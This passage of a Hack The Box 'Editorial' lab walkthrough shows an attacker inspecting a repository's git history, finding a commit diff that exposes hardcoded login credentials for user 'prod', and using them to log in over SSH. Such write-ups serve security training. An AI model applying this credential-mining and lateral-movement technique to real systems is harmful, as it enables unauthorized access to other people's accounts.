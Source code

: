 #### Reset the files to the last committed state
```
dev@editorial:~$ cd apps; git checkout .
Updated 52 paths from the index
```

#### Enumerate git history to discover credentials for user `prod`
```
dev@editorial:~/apps$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
 ```

#### Use discovered credentials to gain access over SSH
```
┌──(magicrc㉿perun)-[~/attack/HTB Editorial]
└─$ ssh prod@editorial.htb
prod@editorial.htb's password: 
<SNIP>
prod@editorial:~$ id
uid=1000(prod) gid=1000(prod) groups=1000(prod)
```
